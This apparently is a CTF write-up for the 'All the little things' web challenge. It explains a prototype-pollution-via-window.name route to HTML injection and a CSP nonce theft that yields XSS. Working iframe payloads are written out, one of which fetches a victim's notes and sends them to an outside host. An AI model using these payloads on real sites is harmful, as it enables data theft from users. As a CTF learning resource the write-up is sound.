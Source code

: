 ## Owner:

> CaptainFreak

#### Solved?

 - No

#### Tried:

 Did not try much TBH

#### Solutions:

With prototype pollution(unintended solution) on window.name (because it is persisted in browser even if origin changes),
we override the user.theme.cb propoerty, which is used in 
`<script src='/theme?cb=${user.theme.cb}'>`

/theme?cb="payload" reflects payload in the response

By making window.name to on our attacker site

```
{
   "__proto__": {},
   "theme": {
      "cb": "document.body.innerHTML=window.name.toString"
   },
   "anything": "<h1>Hi!</h1>"
}
```

and making him redirect to ctf chall,
we can write the whole window.name to DOM of victim page of chall

So we have arbitrary HTMLi on littlethings domain

but its not full XSS yet cause of CSP nonce.

We can steal and apply this nonce on our own script tag by using multiple callbacks  and then writing arbitrary code to tag and it will execute it.

```
<iframe name=x title='fetch(&#x22;/note&#x22;).then(x=>x.text()).then(x=>top.locations=&#x22;//ctf.s1r1us.ninja?html=&#x22;+btoa(encodeURIComponent(x)))' id=y srcdoc='<script><\/script>'></iframe> 
	
<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.nonce=top.document.body.lastElementChild.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.nonce.valueOf ><\/script>'></iframe>

<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.document.head.lastElementChild.nonce=top.x.nonce.valueOf ><\/script>'></iframe>

<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.document.head.lastElementChild.innerHTML=top.y.title.valueOf ><\/script>'></iframe>
```

Multiple ways to exfil data though, check out:

In Fixed version,
to get arbitrary HTMLi first, we dont have prototype pollution to the rescue,The challenge name was the hint towards it.

We need to use "document.all" which is undefined but still exists!!
then again after Arbitrary xss, we use CSP bypasses to the rescue.

https://github.com/zoeyg/public-write-ups/blob/master/googlectf-2020/all-the-little-things.md
https://blog.s1r1us.ninja/CTF/IuseBing






